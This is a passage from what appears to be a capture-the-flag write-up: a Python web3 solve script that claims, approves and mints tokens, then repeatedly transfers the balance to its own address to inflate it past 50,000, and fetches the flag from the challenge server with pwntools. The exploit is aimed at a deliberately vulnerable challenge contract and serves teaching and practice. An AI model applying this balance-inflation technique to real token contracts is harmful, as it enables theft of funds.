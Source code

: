 ```python

	transaction = ghdTokenContract.functions.transfer(account.address, amount).build_transaction({
		'from': account.address,
		'nonce': web3.eth.get_transaction_count(account.address),
		'gas': gasEstimate,
		'gasPrice': web3.eth.gas_price
	})

	signAndSendTx('transfer', transaction)


###########################################################################################################


claim()
approve()
mint()

isSolved = False

while not isSolved:
	ghdBalance = ghdTokenContract.functions.balanceOf(account.address).call()
	if web3.from_wei(ghdBalance, 'ether') >= 50000:
		isSolved = True
		break
	transferAmount = web3.from_wei(ghdBalance, 'ether') - 1
	transfer(web3.to_wei(transferAmount, 'ether'))

print(f'Getting flag')

conn = remote('challs.nusgreyhats.org', 30201)
conn.sendlineafter('action? ', '3')
conn.sendlineafter('uuid please: ', uuid)
print(conn.recvall().decode())
conn.close()
```

![image](1.png)
